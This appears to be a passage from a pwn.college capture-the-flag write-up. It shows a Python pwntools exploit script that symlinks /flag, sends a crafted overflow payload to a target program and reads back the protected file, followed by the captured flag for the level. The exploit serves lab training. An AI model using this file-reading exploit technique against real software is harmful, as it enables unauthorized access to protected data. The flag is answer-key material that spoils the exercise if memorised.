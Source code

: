 ```python


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        target.recvall(timeout=5)

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(target, padding_size)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{w1Gz9LGRK9kmwUD7TZnA3xcKN5j.0FNyMDL5cTNxgzW}`

# Level 4.0

## Information
